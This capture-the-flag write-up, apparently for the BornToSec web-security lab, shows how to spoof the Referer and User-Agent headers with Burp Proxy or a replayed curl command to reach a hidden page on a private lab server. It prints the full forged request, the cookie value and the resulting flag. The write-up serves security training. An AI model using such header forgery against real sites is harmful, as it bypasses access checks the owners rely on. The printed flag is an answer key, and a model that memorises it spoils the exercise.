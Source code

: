 
Modifying HTTP requests with Burp Proxy

going through the html on the link `© BornToSec` at the bottom

You must come from : "https://www.nsa.gov/".

Let's use this browser : "ft_bornToSec". It will help you a lot.

```
GET /?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1
Host: 10.12.100.231
Upgrade-Insecure-Requests: 1
User-Agent: ft_bornToSec
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://www.nsa.gov/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: close
```

The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


======
Using Developers tool

```
Open the developer tools in your browser. You can do this by pressing F12 on Windows/Linux or Command + Option + I on Mac.

Go to the Network tab.

Make sure the Preserve log option is selected.

Refresh the page that you want to modify the Referer header for.

Find the request in the Network tab that you want to modify the Referer header for.

Look for the option to "Copy as cURL" or "Copy as Fetch" and paste the copied request to edit and resend it.
```

```
curl 'http://10.12.100.231/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9,ar;q=0.8,fr;q=0.7' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \
  -H 'Referer: https://www.nsa.gov/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: ft_bornToSec' \
  --compressed \
  --insecure | grep flag
```
```
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```
